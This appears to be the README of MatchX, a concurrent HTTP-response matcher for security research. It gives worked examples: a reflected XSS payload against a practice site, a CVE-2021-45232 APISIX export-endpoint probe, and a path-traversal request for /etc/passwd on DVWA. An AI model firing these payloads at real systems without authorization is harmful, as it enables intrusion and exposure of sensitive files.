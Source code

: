 # MatchX
MatchX is specially designed for matching/finding `Strings` and `Regex patterns` in the HTTP responses with concurrency. This tool can help `Security researchers` to find multiple `CVE's` (that are already found) and `Vulnerabilities` like - Reflected XSS, SQLi, Sensitive data leakage, LFI etc.

## Installation

Run these commands in your terminal:
```
$ git clone https://github.com/Nefcore/MatchX.git
$ cd MatchX
$ sudo python3 setup.py install
$ matchx
```

## Arguments:

* `-u`: For Single URL.
* `-l`: For multiple URLs.
* `-mr`: For regex matching.
* `-mr`: For word/string matching.
* `--cookies`: If you want to use cookies.
* `--verbose`: For verbose output
* `--user-agent`: Specify user agent
* `-m`: Specify request method (GET/POST)
* `--data`: Specify POST data
* `--timeout`: Request timeout
* `--verify`: Verfiy SSL
* `-t`: Number of concurrent threads
* `-o`: For output file

## Finding Reflected XSS with MatchX

Let's find Reflected XSS on http://testphp.vulnweb.com:

Add `<script>alert(1)</script>` in words.txt.

```
$ echo "<script>alert(1)</script>" >> words.txt
```

Now run this command:

```
$ matchx -u "http://testphp.vulnweb.com/search.php?test=query" -mw words.txt --method POST --data "searchFor=<script>alert(1)</script>&goButton=go"
```
Here is the output:

```
 
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:10:40] [MATCHED] [<script>alert(1)</script>] http://testphp.vulnweb.com/search.php?test=query
```
output.json:

```
$ cat output.json
```

```json

{
    "URL": "http://testphp.vulnweb.com/search.php?test=query",
    "Status": 200,
    "Matched": true,
    "Word": "<script>alert(1)</script>"
}
```

## Finding CVE-2021-45232 with MatchX

Add `Consumers` in words.txt:

```
$ echo "Consumers" >> words.txt
```
Now run this command:

```
$ matchx -u "http://vuln/apisix/admin/migrate/export.txt" -mw words.txt -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 09:23:44] [MATCHED] [Consumers] http://vuln/apisix/admin/migrate/export.txt
```

Similarly you can find many CVE's. 

## Finding LFI with MatchX

Let's find LFI on DVWA with MatchX:

Add `root:.*:0:0` regex pattern in regex.txt.

```
$ echo "root:.*:0:0" >> regex.txt
```

Now run this command:

```
$ matchx -u "http://dvwa/vulnerabilities/fi/?page=../../../../../../etc/passwd" -mr regex.txt --cookies "PHPSESSID={value}; security=low" -v
```

Here is the output:

```
    __  ___      __       __   _  __
   /  |/  /___ _/ /______/ /_ | |/ /
  / /|_/ / __ `/ __/ ___/ __ \|   / 
 / /  / / /_/ / /_/ /__/ / / /   |  
/_/  /_/\__,_/\__/\___/_/ /_/_/|_|  v1.0

                        (By Nefcore)

[INF] MatchX Engine (v1.0)
[WRN] Developers assume no liability and are not responsible for any misuse or damage.

[02-03-2022 08:42:35] [MATCHED] [root:.*:0:0] http://10.10.46.19/vulnerabilities/fi/?page=../../../../../../etc/passwd [1 time matched]
```

